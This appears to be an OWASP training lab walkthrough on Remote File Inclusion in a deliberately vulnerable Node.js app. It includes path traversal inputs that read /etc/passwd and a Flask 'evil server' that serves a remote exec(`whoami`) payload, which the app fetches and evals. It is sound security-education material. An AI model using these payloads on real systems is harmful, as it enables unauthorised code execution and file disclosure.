 # Remote File Inclusion - RFI

## Running the app on Docker

```
$ sudo docker pull blabla1337/owasp-skf-lab:js-rfi
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:js-rfi
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

Remote File Inclusion (also known as RFI) is the process of including files, that are supplied into the application and loaded from an external (remote) source, through the exploiting of vulnerable inclusion procedures implemented in the application. This vulnerability occurs, for example, when a page receives, as input, the path to the file that has to be included and this input is not properly sanitized, allowing directory traversal characters (such as dot-dot-slash) to be injected. Although most examples point to vulnerable PHP scripts, we should keep in mind that it is also common in other technologies such as JSP, ASP and others.

Warning: To successfully test for this flaw, the tester needs to have knowledge of the system being tested and the location of the files being requested. There is no point requesting /etc/passwd from an IIS web server.

Some Examples:

```text
http://example.com/getUserProfile.jsp?item=../../../../etc/passwd

Cookie: USER=1826cc8f:PSTYLE=../../../../etc/passwd
```

The File Inclusion vulnerability allows an attacker to include a file, usually exploiting a "dynamic file inclusion" mechanisms implemented in the target application. The vulnerability occurs due to the use of user-supplied input without proper validation.

This can lead to something as outputting the contents of the file, but depending on the severity, it can also lead to:

Code execution on the web server

Code execution on the client-side such as JavaScript

which can lead to other attacks such as:

Cross-site scripting (XSS)

Denial of Service (DoS)

Sensitive Information Disclosure

Let us see how can we exploit the file inclusion vulnerability in a real world scenario, the application here allows us to run 2 commands from the drop down list. One is running Date and the other is Calendar.

![](../../.gitbook/assets/nodejs/RFI/1.png)

![](../../.gitbook/assets/nodejs/RFI/2.png)

When we will have a look in our intercepting proxy we can see that the application uses a predefined file that contains the command to execute and prints the results of it.

![](../../.gitbook/assets/nodejs/RFI/3.png)

## Exploitation

To exploit this Remote File Inclusion vulnerability, let's use Python Flask to create a small webserver that serves your file. We name it evil_server.py

```python
from flask import Flask, request, url_for, render_template, redirect


app = Flask(__name__)
app.config['DEBUG'] = True

@app.route("/evil.py")
def start():
    return render_template("evil.py")

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=1337)
```

Then we create our folder template where we will put our evil.txt file with the below content:

```javascript
exec(`whoami`);
```

Now we are ready to start our evil_server.py and try to make the application load our evil file and hopefully it will get executed.

```
$ pip install flask
$ python3 evil_server.py
```

Our remote file inclusion worked and the application seems to load javascript files and eval() the content of them.

![](../../.gitbook/assets/nodejs/RFI/4.png)

Success! As we observed, we can include our own files through RFI.

## Additional sources

{% embed url="https://www.owasp.org/index.php/Testing_for_Remote_File_Inclusion" %}
